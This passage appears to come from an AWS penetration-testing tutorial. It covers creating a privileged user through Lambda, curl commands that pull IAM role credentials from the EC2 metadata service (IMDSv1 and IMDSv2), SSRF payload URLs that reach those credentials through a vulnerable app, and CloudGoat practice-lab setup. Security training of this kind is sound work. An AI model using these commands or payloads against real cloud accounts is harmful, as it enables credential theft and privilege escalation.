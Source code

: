 Deploy this code to a Lambda function with IAM permissions, then invoke it to create a privileged user.

### EC2 Metadata Service Exploitation

The EC2 Instance Metadata Service (IMDS) can be leveraged for credential theft:

```bash
# Access instance metadata (IMDSv1)
curl http://169.254.169.254/latest/meta-data/

# Extract IAM role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Get temporary credentials
ROLE_NAME=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME
```

For IMDSv2, which uses token-based sessions:

```bash
# Request session token
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# Use token for metadata requests
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

### AWS SSRF Vulnerabilities

Server-Side Request Forgery (SSRF) vulnerabilities can be exploited to access the metadata service from a vulnerable application:

```bash
# Example SSRF payload targeting metadata service
https://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/

# If IMDSv2 is enforced, a chained exploit is needed:
# 1. First request to get token
https://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/api/token

# 2. Second request using the token
https://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/&token=TOKEN_VALUE
```

### CloudGoat: AWS Exploitation Practice Environment

For ethical practice of AWS exploitation techniques:

```bash
# Install CloudGoat
git clone https://github.com/RhinoSecurityLabs/cloudgoat.git
cd cloudgoat
pip install -r requirements.txt

# Configure AWS credentials for deployment
./cloudgoat.py config

# Deploy a scenario
./cloudgoat.py create iam_privesc_by_attachment

# Start testing against the scenario
# Use tools like Pacu against the created environment
```
